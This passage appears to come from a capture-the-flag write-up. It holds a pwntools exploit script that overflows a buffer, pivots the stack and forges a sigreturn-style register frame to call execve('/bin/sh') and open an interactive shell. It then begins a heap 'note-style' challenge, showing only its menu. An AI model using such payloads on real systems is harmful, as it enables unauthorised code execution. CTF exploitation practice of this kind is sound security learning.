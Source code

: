 ```python

if args.R:
    r.recvuntil(b'\n')
payload = b''
payload += b'a'*8
payload += flat(0x404020, elf.sym.main+12)
r.sendline(payload)

binsh_addr = 0x404030
payload = b''
payload += flat(elf.sym.printfile+12+7, 0xf+8, 0x401149)
payload += b'/bin/sh\x00'
payload += b'2'*8
payload += b'3'*8
payload += b'4'*8
payload += b'5'*8
payload += b'6'*8
payload += b'7'*8
payload += b'8'*8
payload += b'9'*8
payload += b'a'*8
payload += b'b'*8
payload += b'c'*8
payload += p64(binsh_addr)#b'd'*8 # rdi
payload += p64(0)#b'e'*8# rsi
payload += b'f'*8
payload += b'1'*8
payload += p64(0)#b'2'*8# rdx
payload += p64(0x3b)#b'3'*8# rax
payload += b'4'*8
payload += p64(0x404400)#b'5'*8#rsp
payload += p64(0x401198)#b'6'*8#rip
payload += p64(0)
payload += p64(0x33)
payload += p64(0x2b)
r.sendline(payload)

r.interactive()
r.close()
```

# hopper

Another classic note-style task.

```
welcome!
1. alloc
2. remove
3. show
4. exit
choice> 
```
